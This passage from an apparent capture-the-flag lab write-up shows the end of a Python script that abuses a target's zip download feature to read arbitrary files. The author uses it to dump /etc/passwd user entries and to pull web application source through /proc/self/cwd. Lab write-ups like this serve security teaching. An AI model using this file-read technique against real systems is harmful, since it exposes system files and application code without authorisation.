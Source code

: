 ```
with zipfile.ZipFile(BytesIO(resp.content)) as zip_file:
    file_path_in_zip = zip_file.namelist()[0]
    with zip_file.open(file_path_in_zip) as file:
        contents = file.read()

if outfile:
    with open(outfile, 'wb') as f:
        f.write(contents)
    print(f"Results written to {outfile}")
else:
    print(contents.decode())

```

#### General Filesystem Enumeration

According to the `passwd` file, the box has six users with shells set:

```

oxdf@hacky$ python read_file.py /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash

```

The website can be accessed with `/proc/self`:

```

oxdf@hacky$ python read_file.py /proc/self/cwd/index.html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta content="width=device-width, initial-scale=1.0" name="viewport">
  ...[snip]...

```

`/download` doesn’t work, nor with `index.php`, but `/download.php` does:

```

oxdf@hacky$ python read_file.py /proc/self/cwd/download/
File not found: /proc/self/cwd/download/
oxdf@hacky$ python read_file.py /proc/self/cwd/download/index.php
File not found: /proc/self/cwd/download/index.php
oxdf@hacky$ python read_file.py /proc/self/cwd/download.php
<?php
...[snip]...

```
